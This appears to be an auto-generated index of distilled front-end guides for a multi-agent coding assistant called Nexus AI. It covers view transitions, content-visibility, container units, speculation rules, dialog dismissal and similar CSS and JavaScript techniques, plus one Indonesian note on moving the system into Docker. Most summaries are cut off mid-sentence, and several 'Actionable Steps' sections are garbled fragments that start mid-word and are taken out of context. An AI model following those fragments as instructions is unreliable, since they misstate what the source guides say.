#### 🛠 Actionable Steps:
actions if you're building carousels or testimonial galleries slides.
- **DO NOT** bundle layout-dependent dynamic updates inside dynamic visual scroll callbacks.
- **DO** consider that visual viewport zooming and scrolling triggers the `scrollend` event correctly.

#### 🔗 Traceability:
- [Source Context](NEXUS_DEFER-WORK-UNTIL-SCROLL-ENDS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation Steps
> **Origin**: `ui-ux/NEXUS_DIRECTIONAL-NAVIGATION-TRANSITIONS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Single Page Applications (SPAs) provide the appearance of navigation by replacing the content of the page without navigating to a new page. By default, the content is simply replaced, without any transitions. Directional transitions can visually reinforce a spatial relationship between views. 

By sliding new content in from the direction the user is moving you create a mental map of the application structure. For instance, a product site may show a transition to the right for "forward," and to the left for "back", or a slideshow may transition up and down to show next and previous slides.


1. **Detect Navigation Direction**: Determine if the user is moving "forward" or "backward" in the application flow. How you detect the direction depends on your use case.
2. **Trigger Transition with Types**: Pass the direction in a `types` array to `document.startViewTransition()` to categorize the transition.
3. **Define Directional Animations with CSS**: Use the `:active-view-transition-type()` pseudo-class to apply specific animations based on the navigation type.


Define sliding animations to and from each direction. For bes...

#### 🔗 Traceability:
- [Source Context](NEXUS_DIRECTIONAL-NAVIGATION-TRANSITIONS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 📜 Nexus Evolution Record: Docker & TALL Stack Strategy
> **Origin**: `ui-ux/NEXUS_DOCKER_TALL_EVOLUTION.md` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


> **Date**: 08/05/2026
> **Session Status**: Evolutionary Sync
> **Context**: Optimization of Nexus Engine for multi-project TALL Stack orchestration.

---


Nexus AI dikembangkan dengan tujuan utama yang jelas dari USER:
- **Fokus Utama**: Membangun sistem *multi-agent* yang terspesialisasi dalam pengembangan **TALL Stack** (Tailwind CSS, Alpine.js, Laravel, Livewire).
- **Skala Pengelolaan**: Mengorkestrasi dan membantu pengelolaan **3-5 proyek aktif** berbasis TALL stack secara efisien.
- **Filosofi**: Nexus bertindak sebagai **"Asisten Otonom"** yang mendukung USER, bukan menggantikannya, dengan memastikan kualitas kode dan arsitektur tetap terjaga di seluruh proyek.

---


Sistem Nexus AI kini telah dipindahkan ke dalam Docker untuk meningkatkan otonomi dan portabilitas.

- **Status Docker**: Aktif (Docker Desktop WSL2).
- **Konfigurasi**:
    - **Dockerfile**: Menggunakan `node:18-slim` dengan dependensi sistem `git` dan `curl` untuk mendukung `WorktreeManager`.
    - **Docker Compose**: Menggunakan model "Central Hub" di mana proyek eksternal di-mount ke `/app/workspace`.
- **Manfaat**: Isolasi eksekusi (Sandboxing) dan kon...

#### 🔗 Traceability:
- [Source Context](NEXUS_DOCKER_TALL_EVOLUTION.md)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Efficient Background Processing
> **Origin**: `ui-ux/NEXUS_EFFICIENT-BACKGROUND-PROCESSING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Pause heavy background tasks when a component is not being rendered by the browser to conserve system resources and battery life.


The `content-visibility: auto` property allows the browser to skip rendering calculations for elements that are far outside the viewport. When the browser decides to skip or resume rendering for an element, it fires the `contentvisibilityautostatechange` event on that element.

By listening to this event, you can pause expensive operations like `<canvas>` animations, WebGL rendering, or high-frequency WebSocket data polling when they are not needed, and resume them just-in-time when the browser prepares to display the content.


It is important to understand when to use which API:

*   **Use `IntersectionObserver` for application logic** tied to the exact visual visibility of an element in the viewport (e.g., lazy-loading data, infinite scroll triggers).
*   **Use `contentvisibilityautostatechange` for rendering-heavy work** (like complex canvas updates or heavy DOM mutations). This event ties directly to the browser's internal rendering lifecycle. The browser often starts rendering an...

#### 🔗 Traceability:
- [Source Context](NEXUS_EFFICIENT-BACKGROUND-PROCESSING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Export HTML content from canvas
> **Origin**: `ui-ux/NEXUS_EXPORT-HTML-MEDIA-FROM-CANVAS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions frame by frame, for example, for streaming, capture DOM mutations using libraries like `rrweb`. 

Alternatively, implement a warning that HTML media export is not supported in the browser because it doesn't support HTML-in-Canvas.

#### 🔗 Traceability:
- [Source Context](NEXUS_EXPORT-HTML-MEDIA-FROM-CANVAS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Faster SPA View Transitions via State Caching
> **Origin**: `ui-ux/NEXUS_FASTER-SPA-VIEW-TRANSITIONS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Enable instant navigation between views in a Single-Page Application (SPA) by caching the rendered state of inactive views instead of destroying them.


Traditionally, when a user navigates between tabs or views in an SPA, developers either destroy the old view or hide it using `display: none`. Both approaches require the browser to recreate or recalculate the full layout and paint when the user returns to that view.

By using `content-visibility: hidden` on inactive views, the browser removes the element’s contents from the layout flow and stops painting it, but *retains* its cached rendering state in memory. When the user switches back, the view restores nearly instantly.


While this approach offers massive performance benefits, it introduces a specific trade-off that you must manage carefully:

*   **CPU Savings:** Massive. The browser completely skips layout and paint passes for hidden views.
*   **RAM Cost:** High. The browser keeps all DOM nodes, event listeners, and state for the hidden view in memory.


*   **DO** use this strategy for simple applications with a small, predictable number of views (e.g...

#### 🔗 Traceability:
- [Source Context](NEXUS_FASTER-SPA-VIEW-TRANSITIONS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overview
> **Origin**: `ui-ux/NEXUS_FLUID-SCALING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Fluid scaling allows components to adjust their internal proportions (like font sizes and spacing) based on their current dimensions. This creates a more cohesive design than jumping between fixed breakpoints.

While fluid scaling was historically achieved using viewport units (scaling based on the screen size), modern container query units allow components to scale relative to their parent container instead. This ensures components look good regardless of where they are placed in a layout, promoting better component isolation and reusability.


To use container query units, you must first define a containment context on a parent element.

```css
.component-wrapper {
  /* Define the container type. Use 'inline-size' for width-based scaling. */
  /* You can also use 'size' for both width and height, but it requires explicit sizing. */
  container-type: inline-size;
  
  /* Optional: Name the container for specific targeting */
  container-name: fluid-card;
}
```


Use container query units (`cqi`, `cqb`, etc.) to set sizes relative to the container's dimensions.

*   `cqi`: 1% of the container's inlin...

#### 🔗 Traceability:
- [Source Context](NEXUS_FLUID-SCALING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Auto-sizing form controls
> **Origin**: `ui-ux/NEXUS_FORM-FIELDS-AUTOMATICALLY-FIT-CONTENTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

By default, form controls like `<input>`, `<textarea>`, and `<select>` have fixed dimensions. Their sizes remain constant, regardless of the amount of content the user enters or selects.

To allow these controls to automatically shrink or grow to fit their content (including placeholders), use the `field-sizing: content` CSS property.


Setting `field-sizing: content` on inputs, selects, or textareas allows them to resize dynamically as the user types or selects options. However, you must account for inherited styling, layout defaults, and minimum/maximum constraints to ensure a robust user experience.

To prevent layout issues, it is recommended to set both `min-inline-size` (or `min-width`) and `max-inline-size` (or `max-width`) alongside `field-sizing: content` on text inputs. A minimum size prevents the input from collapsing to a width of zero when empty (making it unclickable), and a maximum size ensures it doesn't expand indefinitely and break the page layout.

For textareas, allowing horizontal auto-sizing can cause a jarring UX (e.g., a textarea with a long placeholder will abruptly shrink horizontally when the us...

#### 🔗 Traceability:
- [Source Context](NEXUS_FORM-FIELDS-AUTOMATICALLY-FIT-CONTENTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation steps
> **Origin**: `ui-ux/NEXUS_GROUP-ELEMENT-TRANSITIONS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

As items are added or removed from a list, or rearranged, transitions can help users maintain context. View transitions provide a way to transition between two states of an element by giving the element a unique `view-transition-name`. When multiple elements on a page share the same transition behavior, `view-transition-class` allows you to define that logic once in CSS rather than repeating it for every unique `view-transition-name`. This keeps your stylesheets maintainable while ensuring consistent animations across a group of elements.


1. **Assign unique names and a shared class**

Each element that needs to be tracked individually during a transition must have a unique `view-transition-name`.

```html
<!-- Mandatory: Each element must have a unique view-transition-name -->
<li style="view-transition-name: item-1" class="item">Item 1</li>
<li style="view-transition-name: item-2" class="item">Item 2</li>
```

To apply shared styles, also assign a `view-transition-class`.

```css
.item {
  view-transition-class: list-item;
}
```

2. **Define the shared transition logic**
   
Use the `::view-transition-gro...

#### 🔗 Traceability:
- [Source Context](NEXUS_GROUP-ELEMENT-TRANSITIONS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Identify heavy-running JavaScript
> **Origin**: `ui-ux/NEXUS_IDENTIFY-HEAVY-SCRIPTS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions.

The Long Animation Frames API is a lightweight API that can be used to identify heavy-running JavaScript in the field. A heavy-running script can be either a single long-running script, or a script that runs multiple times during the page lifecycle.

#### 🔗 Traceability:
- [Source Context](NEXUS_IDENTIFY-HEAVY-SCRIPTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Identify causes of poor INP
> **Origin**: `ui-ux/NEXUS_IDENTIFY-INP-CAUSES.MD` | **Distilled At**: 26/05/2026

#### 🧐 Core Insights (Distilled):
insights for JavaScript code delaying an interaction. A full performance trace using the JS Self-Profiling API is a heavyweight solution that is liable to cause performance problems. The Long Animation Frames API is a lightweight API that can be used to identify slow running JavaScript in the field for INP interactions.

#### 🛠 Actionable Steps:
actions leads to a poor impression of a page being slow or even completely broken. Interaction to Next Paint (INP) is a metric based on the Event Timing API. It measures the worst interaction (minus some outliers) as a measure of the page's responsiveness.

Identifying root causes of an unresponsive web page can be tricky especially as it depends on user interactions and environmental conditions such as device capabilities and network conditions. This makes it even more difficult to diagnose compared to a more repeatable and predictable scenario like page load. Lab data only replicates a small subset of real user scenarios so measuring the causes of slow INP in the field is essential.

The Event Timing API allows for splitting the INP duration into three subparts: Input Delay (processi

#### 🔗 Traceability:
- [Source Context](NEXUS_IDENTIFY-INP-CAUSES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Improve next page load performance
> **Origin**: `ui-ux/NEXUS_IMPROVE-NEXT-PAGE-LOAD-[PERFORMANCE.MD](../ui-ux/NEXUS_PERFORMANCE.MD)` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


One of the most effective ways to improve page load performance for users navigating a site is to initiate loading the next page they're about to visit *before* they visit it. This can be done through a technique called speculative loading using the Speculation Rules API.


Speculative loading works by using JSON-based speculation rules to tell the browser about links that can be prefetched or prerendered improving page load performance when user clicks on them.

The rules can either be a hardcoded list of URLs a `urls` key (known as a list rule), or with a `where` key containing a set of href and CSS selectors used to find links on the page (known as a `document` rule).

Rules can also include an optional `eagerness` property that specifies when the page should be prefetched or prerendered. The `eagerness` property can be set to `immediate`, `eager`, `moderate`, or `conservative`. `immediate` speculates as soon as possible, while the others wait for user signals such as hovering for a short period, for a longer period, or starting to click on the page respectively.

Rules can be combined with different eagerness setti...

#### 🔗 Traceability:
- [Source Context](NEXUS_IMPROVE-NEXT-PAGE-LOAD-[PERFORMANCE.MD](../ui-ux/NEXUS_PERFORMANCE.MD))
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Improve Text Layout and Legibility
> **Origin**: `ui-ux/NEXUS_IMPROVE-TEXT-LAYOUT-AND-LEGIBILITY.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action with Width:** `text-wrap: balance` does not change the container's width (`inline-size`). It only affects how text wraps *within* that width. This can leave empty space at the end of the container, which may affect layouts relying on full-width text blocks.

#### 🔗 Traceability:
- [Source Context](NEXUS_IMPROVE-TEXT-LAYOUT-AND-LEGIBILITY.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Key Implementation Details
> **Origin**: `ui-ux/NEXUS_INDIVIDUAL-TRANSFORM-PROPERTIES.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

The `transform` property allows you to apply multiple transformations in a specified order, but any changes to a single transformation require re-specifying the entire transformation chain. This makes it tricky to animate or transition a single transformation.

The individual CSS transform properties (`translate`, `rotate`, and `scale`) allow you to apply transformations independently of the `transform` property. This approach makes it simpler to override a single transformation, for instance on `:hover`.


Individual transform properties are always applied in a **fixed order**, regardless of their order in your CSS:
1. `translate`
2. `rotate`
3. `scale`
4. `transform` (applied last)

If you require a different order (e.g., scaling *before* rotating), you must continue using the `transform` property functions.

Transform functions do not override the individual transform properties. In other words, `scale: 2; transform: scale(3);` will first scale by 2x, then again by 3x, for a total of 6x.


The `transform` property and individual transform properties impact the layout and rendering of the page and may cause une...

#### 🔗 Traceability:
- [Source Context](NEXUS_INDIVIDUAL-TRANSFORM-PROPERTIES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Optimizing Interactions in Complex Layouts
> **Origin**: `ui-ux/NEXUS_INTERACTIONS-IN-COMPLEX-LAYOUTS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
actions in Complex Layouts
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Maintain high frame rates (60FPS) and eliminate interaction latency during drag-and-drop or heavy mutations in complex, multi-column layouts like Kanban boards or massive data grids.

#### 🔗 Traceability:
- [Source Context](NEXUS_INTERACTIONS-IN-COMPLEX-LAYOUTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Enable interactive HTML content in 3D scenes
> **Origin**: `ui-ux/NEXUS_INTERACTIVE-CONTENT-IN-3D-SCENES.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
Action</button>
  </div>
</canvas>

<script>
  const canvas = document.getElementById("canvas");
  const gl = canvas.getContext("webgl");
  const uiElement = document.getElementById("ui-element");

  // Setup WebGL texture...
  const texture = gl.createTexture();
  gl.bindTexture(gl.TEXTURE_2D, texture);

  canvas.onpaint = () => {
    // 1. Update texture with HTML content
    if (gl.texElementImage2D) {
      gl.texElementImage2D(
        gl.TEXTURE_2D,
        0,
        gl.RGBA,
        gl.RGBA,
        gl.UNSIGNED_BYTE,
        uiElement,
      );
    }

    // ... Render your 3D scene here, calculating htmlElementMVP matrix ...

    // 2. Sync DOM position with 3D scene
    if (canvas.getElementTransform) {
      const mvpDOM = new DOMMatrix(Array.from(h

#### 🔗 Traceability:
- [Source Context](NEXUS_INTERACTIVE-CONTENT-IN-3D-SCENES.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `ui-ux/NEXUS_INTERACTIVE-CONTENT-REVEAL.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action */
.reveal-layer:hover {
  --inner-size: 100px;
  --outer-size: 120px;
}  
```

#### 🔗 Traceability:
- [Source Context](NEXUS_INTERACTIVE-CONTENT-REVEAL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Show a tooltip when hovering
> **Origin**: `ui-ux/NEXUS_INTEREST-TRIGGERED-TOOLTIPS.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action an icon-only button will take, or provide additional form field guidance.

#### 🔗 Traceability:
- [Source Context](NEXUS_INTEREST-TRIGGERED-TOOLTIPS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Key Use Cases
> **Origin**: `ui-ux/NEXUS_LANGUAGE-DETECTION.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

The **Language Detector API** is a client-side web API designed to identify the language of a given text string. By performing detection locally in the browser, it enhances user privacy and reduces the need for heavy external libraries or costly server-side calls.


- **Translation Prep:** Identifying the source language before sending text to a translator.
- **Safety & Filtering:** Loading specific models for tasks like toxicity detection.
- **Accessibility:** Labeling content with the correct `lang` attribute for screen readers.
- **UI Localization:** Adjusting application interfaces based on the user's input language.


- **OS:** Windows 10/11, macOS 13+, Linux, or Chromebook Plus.
- **Storage:** 22 GB free space (model is removed if space drops below 10 GB).
- **RAM/CPU:** 16 GB RAM and 4+ CPU cores.
- **VRAM:** 4 GB+ if using a GPU.


Check model availability before attempting to instantiate the detector or trigger download.

**MANDATORY:** Instantiating the language detector or triggering a model download with `LanguageDetector.create()` **MUST** be initiated by a user gesture (such as a button click...

#### 🔗 Traceability:
- [Source Context](NEXUS_LANGUAGE-DETECTION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation
> **Origin**: `ui-ux/NEXUS_LIGHT-DISMISS-A-DIALOG.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Modern modal dialogs often support "light-dismiss," allowing users to close a dialog by clicking or tapping the backdrop (the area outside the dialog). The `closedby` attribute provides a declarative way to enable this behavior without custom JavaScript.


To enable light-dismiss:

1. Add `closedby="any"` to the `<dialog>` element.
2. Open the dialog using `dialog.showModal()`.


- `any`: Enables light-dismiss (clicking the backdrop), "close requests" (the `Esc` key), and developer mechanisms (e.g., `dialog.close()`).
- `closerequest`: Enables "close requests" and developer mechanisms only. This is the default for modal dialogs.
- `none`: Only developer mechanisms can close the dialog.


When a dialog is opened as a modal using `showModal()`, the browser generates a `::backdrop` pseudo-element. This backdrop covers the entire viewport and sits directly behind the dialog.

```css
/* Style the backdrop to indicate the dialog is modal */
dialog::backdrop {
  background-color: rgba(0, 0, 0, 0.5);
  backdrop-filter: blur(2px); /* Optional: add blur for modern browsers */
}
```


```html
<!-- MANDATORY: Use...

#### 🔗 Traceability:
- [Source Context](NEXUS_LIGHT-DISMISS-A-DIALOG.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Modeling Partial Time Concepts with Temporal
> **Origin**: `ui-ux/NEXUS_MODEL-PARTIAL-TIME-CONCEPTS.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Modeling date concepts that lack a full calendar date—such as credit card expirations, annual renewals, or daily alarms—has historically been error-prone with the legacy `Date` object. Developers often resort to using arbitrary days (like the 1st of the month) or parsing strings, leading to "day leakage" or incorrect calculations due to leap years and varying month lengths.

The `Temporal` API provides dedicated types for these partial concepts: `Temporal.PlainYearMonth`, `Temporal.PlainMonthDay`, and `Temporal.PlainTime`. These types ensure precision and avoid leaking irrelevant date components.


Use `Temporal.PlainYearMonth` to represent a year and a month.

```javascript
// Create a PlainYearMonth from values
// Use explicit calendar to avoid mismatch issues in polyfill environments
const expiry = Temporal.PlainYearMonth.from({ year: 2027, month: 12, calendar: 'iso8601' });

// Get the current year/month
const currentMonth = Temporal.Now.plainDateISO().toPlainYearMonth();

// Calculate duration until expiry
// largestUnit ensures the difference is expressed in years if applicable
const duration = currentM...

#### 🔗 Traceability:
- [Source Context](NEXUS_MODEL-PARTIAL-TIME-CONCEPTS.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Moving an element with state
> **Origin**: `ui-ux/NEXUS_MOVE-DOM-ELEMENT-WITHOUT-LOSING-STATE.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

When reparenting DOM elements using traditional methods like `appendChild()` or `insertBefore()`, the browser implicitly removes the element from the DOM and then inserts it into its new location. This "remove and insert" operation resets many internal states, causing `<iframe>` elements to reload, CSS animations to restart, and input fields to lose focus.

To move an element while preserving its state, use the `moveBefore()` API. This method performs an atomic move, completely bypassing the removal and insertion steps.


Use `moveBefore()` exactly as you would use `insertBefore()`. It requires two arguments: the node to move, and a reference node to insert before (or `null` to append to the end of the new parent).

```javascript
const newParent = document.getElementById('new-parent');
const elementWithState = document.getElementById('iframe-or-focused-input');

// MANDATORY: Use moveBefore to preserve state. 
// Passing null as the second argument appends the element to the end of newParent.
newParent.moveBefore(elementWithState, null);
```


If you are moving custom elements using `moveBefore()`, their `connec...

#### 🔗 Traceability:
- [Source Context](NEXUS_MOVE-DOM-ELEMENT-WITHOUT-LOSING-STATE.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Omnibox Integration
> **Origin**: `ui-ux/NEXUS_OMNIBOX.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action=opensearch&search=${encodeURIComponent(text)}&limit=5&format=json`
    );
    const [, titles, , urls] = await response.json();

    const suggestions = titles.map((title, i) => ({
      content: urls[i],
      description: `${title} - <url>${urls[i]}</url>`
    }));

    suggest(suggestions);
  } catch (err) {
    console.error('Search failed:', err);
  }
});
```

#### 🔗 Traceability:
- [Source Context](NEXUS_OMNIBOX.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Overflow Clipping Control
> **Origin**: `ui-ux/NEXUS_OVERFLOW-CLIPPING-CONTROL.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action logic.
- **DO** configure `overflow-clip-margin` with a specified length offset when applying external visual effects (like `filter: drop-shadow()`) to prevent sharp bounding box truncation without altering or expanding layout geometry.
- **DO NOT** apply `overflow: clip` if the container requires programmatic scroll manipulation via JavaScript or serves as the immediate layout context for `position: sticky` elements, as `clip` completely disables scrolling.

#### 🔗 Traceability:
- [Source Context](NEXUS_OVERFLOW-CLIPPING-CONTROL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Critical Rendering Path (CRP) Optimization
> **Origin**: `ui-ux/NEXUS_PERFORMANCE.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
action to Next Paint (INP) & Main Thread Unblocking

INP measures the latency of all interactive events across the page's lifecycle. Poor INP is caused by long-running JavaScript tasks blocking the main thread.

#### 🔗 Traceability:
- [Source Context](NEXUS_PERFORMANCE.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Implementation Steps
> **Origin**: `ui-ux/NEXUS_PHYSICS-BASED-EASING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

Traditional CSS easing functions like `ease-in` or `cubic-bezier()` are limited to simple curves, making it impossible to create complex physics-based effects like bounces or springs. The `linear()` timing function solves this by allowing you to provide a series of stops that can approximate complex curves. Transitions and animations are interpolated based on straight lines between the stops, but within enough stops, it can appear smooth.


1.  **Generate the curve stops:**
    Manually plotting dozens of points for a spring or bounce is impractical. Use a timing function from an external library, or use a  tool to convert an existing JavaScript easing function or an SVG path into the `linear()` syntax. Optional: store these timing functions as CSS custom properties for reuse throughout your site.
2.  **Define the timing function:**
    Apply the generated stops to the `transition-timing-function` or `animation-timing-function` property, or through the `transition` or `animation` shorthands.
3.  **Adjust the duration:**
    Unlike JavaScript physics engines where duration is derived from physical properties (mass, stiffnes...

#### 🔗 Traceability:
- [Source Context](NEXUS_PHYSICS-BASED-EASING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Fallback strategies
> **Origin**: `ui-ux/NEXUS_PLATFORM-CONTROLS-DISMISS-DIALOG.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026

When a modal dialog is open, users expect to use familiar controls to dismiss them: pressing the <kbd>Esc</kbd> key on a keyboard, using the back button or gesture on mobile platforms, or a dismiss gesture with assistive technologies.

When the `<dialog>` element was first introduced, it could be dismissed with the <kbd>Esc</kbd> key, but not other platform controls such as a back button/gesture on mobile. With the addition of the `closedby` attribute for `<dialog>` elements, the extended behavior of responding to more platform-specific controls for close requests has been applied for `<dialog>` elements that are opened in a modal state (i.e. when opened imperatively with the `<dialog>` element’s `showModal()` method in JavaScript or declaratively with the `show-modal` invoker command). So, there is no specific change developers need to make if they are already using the `<dialog>` element.

```html
<!-- MANDATORY: must be opened with either `showModal()` with JavaScript or the `show-modal` command using declarative command invokers in order respond to close requests including platform-specific controls. -->
<dialog aria-label...

#### 🔗 Traceability:
- [Source Context](NEXUS_PLATFORM-CONTROLS-DISMISS-DIALOG.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Precise Text Alignment
> **Origin**: `ui-ux/NEXUS_PRECISE-TEXT-ALIGNMENT.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Browsers automatically add extra whitespace above and below text characters to accommodate line-height and font-specific metrics like ascenders and descenders. This "ghost space" makes it impossible to achieve pixel-perfect vertical alignment using standard CSS.

Common issues include:
- **Misaligned Icons**: Text appears visually lower or higher than an adjacent icon even when using `align-items: center`.
- **Inaccurate Padding**: A button with `padding: 12px` visually appears to have more space on top or bottom because of the font's internal leading.
- **Flush Alignment**: You cannot align the top of a capital letter exactly with the top of a container or an adjacent image without using "magic number" negative margins.


The `text-box-trim` and `text-box-edge` properties (shorthand `text-box`) allow you to trim this internal leading based on specific font metrics. By trimming the text box to the **cap-height** (top of capital letters) and the **alphabetic baseline** (bottom of most letters), you can ensure that the element's bounding box matches its visual content.


1. **MANDATORY**: Apply `text-box-trim: tr...

#### 🔗 Traceability:
- [Source Context](NEXUS_PRECISE-TEXT-ALIGNMENT.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Prevent text wrapping
> **Origin**: `ui-ux/NEXUS_PREVENT-TEXT-WRAPPING.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Modern CSS provides the `text-wrap` property to control how text breaks within its container. To ensure text stays on a single line and ignores container boundaries, use `text-wrap: nowrap`. This is the modern, more semantic replacement for `white-space: nowrap`.

Preventing text wrapping is useful for UI elements like navigation tabs, horizontal scrolling chips, or any scenario where a line break would break the layout or visual design.


To prevent any automatic line breaks, apply `text-wrap: nowrap` to the element containing the text.

1. **MANDATORY**: Apply `text-wrap: nowrap` to the target element.
2. **OPTIONAL**: Use an `overflow` property (such as `hidden`, `scroll`, or `auto`) to manage the resulting overflow.
3. **OPTIONAL**: Use `text-overflow: ellipsis` to provide a visual cue when text is truncated. Note: This requires `overflow: hidden`.


```css
.no-wrap-text {
  /* MANDATORY: Prevents automatic line breaks */
  text-wrap: nowrap;

  /* OPTIONAL: Handles the overflow visually */
  overflow: hidden;
  text-overflow: ellipsis;

  /* OPTIONAL: Constrain width to force and handle overflow ...

#### 🔗 Traceability:
- [Source Context](NEXUS_PREVENT-TEXT-WRAPPING.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Pull to Reveal
> **Origin**: `ui-ux/NEXUS_PULL-TO-REVEAL.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


"Pull to reveal" is a UI pattern where content (such as a search bar or refresh control) is hidden above the top of a scrollable area on initial load, and the user can pull down (scroll up) to reveal it. This pattern is commonly used in mobile apps and web apps for search bars, filters, and other secondary controls that should be accessible but not immediately visible.

The CSS property `scroll-initial-target` offers a declarative, CSS-only way to implement this pattern. By setting `scroll-initial-target: nearest` on the main content element, the scroll container will render with the hidden content scrolled out of view. Previously, developers relied on JavaScript (`Element.scrollIntoView()`) or URL fragment identifiers (`#content-id`) to achieve this, both of which have limitations and are tricky to implement.


To implement a pull-to-reveal pattern:

1. **Ensure a scroll container:** The target element must be inside a scroll container (an element with overflow that allows scrolling, such as `overflow: auto`). This can be any ancestor element, including the root `<html>` element.
2. **Define the hidden element:** Place...

#### 🔗 Traceability:
- [Source Context](NEXUS_PULL-TO-REVEAL.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Reduce Style Repetition with CSS Functions
> **Origin**: `ui-ux/NEXUS_REDUCE-STYLE-REPETITION.MD` | **Distilled At**: 26/05/2026

#### 💡 Content Summary:
> **VERSION**: v1 | **Last Updated**: 26/05/2026


Maintaining large stylesheets often leads to repetitive logic, especially when dealing with design system tokens like gradients or responsive layout patterns.

The CSS `@function` at-rule allows you to encapsulate this logic into reusable, parameterized functions, making your CSS more maintainable, consistent and DRY (Don't Repeat Yourself).


A custom function is defined using the `@function` rule followed by a dashed name and a list of parameters. The function returns a value using the `result` property. 

```css
@function --my-function(--input1 <length>, --input2: default-value) returns <length> {
  /* Logic goes here */
  result: var(--input1);
}
```


- **Parameters:** Must start with a double dash (`--`).
- **Defaults:** You can provide default values using a colon (`:`).
- **Result:** The `result` property determines the value the function returns. The last `result` declared in the function body wins.
- **Scoping:** Parameters and variables defined inside the function are locally scoped.
- **Types:** You can require parameters and the returned value to match a CSS type with bracket notation (e.g., `<co...

#### 🔗 Traceability:
- [Source Context](NEXUS_REDUCE-STYLE-REPETITION.MD)
- [Related Standards](NEXUS_CORE_PRINCIPLES.md)

---
### 📄 Required Field Feedback
> **Origin**: `ui-ux/NEXUS_REQUIRED-FIELD-FEEDBACK.MD` | **Distilled At**: 26/05/2026

#### 🛠 Actionable Steps:
